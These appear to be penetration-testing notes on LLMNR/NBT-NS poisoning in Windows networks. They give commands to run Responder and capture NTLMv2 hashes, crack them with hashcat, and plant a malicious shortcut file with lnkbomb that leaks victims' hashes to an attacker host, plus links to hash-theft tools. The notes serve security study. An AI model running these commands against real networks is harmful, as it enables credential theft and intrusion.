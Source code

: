 ## LLMNR

LLMNR is used to identify hosts when DNS fails
Originally NBT-NS
Key flaw: Services utilize a username and NTLMv2 hash when responded to maliciously

### LMNR Poisoning

When resource is asked for via broadcast over link local multicast name resolution (LLMNR), we can respond and ask for hash

### Responder

```responder
sudo responder -I <interface> -dwP
```

```hashcat-ntlmv2
hashcat -m 5600 <hashes.txt> <wordlist.txt>
```

Use lnkbomb for malicious lnk generation (automatically puts into a share specified)

https://github.com/dievus/lnkbomb

```lnkbomb
python lnkbomb.py -a <ATTACKER> -t <TARGET> -s DocumentsShare -w
```

-w for windows and -l for linux targets

https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/ Lists lots of ways to get NTLM hashes

https://github.com/Greenwolf/ntlm_theft.git is useful for geenrating various attack types